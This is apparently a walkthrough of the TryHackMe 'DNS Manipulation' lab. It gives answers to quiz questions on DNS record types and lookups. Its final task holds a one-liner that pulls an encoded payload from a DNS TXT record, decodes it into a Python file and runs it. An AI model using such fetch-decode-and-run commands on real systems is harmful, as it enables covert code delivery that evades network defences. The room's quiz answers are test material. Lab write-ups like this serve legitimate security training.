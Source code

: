 ```yaml
---
layout: post
title: DNS Manipulation - TryHackMe Room
---
```


Room: [DNS Manipulation](https://tryhackme.com/room/dnsmanipulation)

# Task 4: What is DNS?
### If you were on Windows, what command could you use to query a txt record for 'youtube.com'? 

```bash
nslookup -type=TXT domaintosearch.com 
```

### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

```bash
dig domaintosearch.com txt
```

### AAAA stores what type of IP Address along with the hostname?

```bash
IPv6
```

### Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

```bash
nay
```

### What DNS Record provides a domain name in reverse-lookup? (Research)

```bash
PTR
```


### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)
- in your Linux terminal enter the following command replacing the IP of interest

```bash
host IP_ADDRESS
```
# Task 5 What is DNS Exfiltration? 
### What is the maximum length of a DNS name?
Check this [article](https://en.wikipedia.org/wiki/Domain_Name_System)

# Task 7 : Exfiltration Practice
- login with SSH provided 

# Task 10 : Infiltration Practice
- Read the TASK file carefully, you will thank me later, spent time on this ... 

```bash
 nslookup -type=txt REDACTED.badbaddoma.in |grep "Ye" |cut -d \" -f2 |base58 -d |base64 -d > decoded.py

 python3 decoded.py
 

```
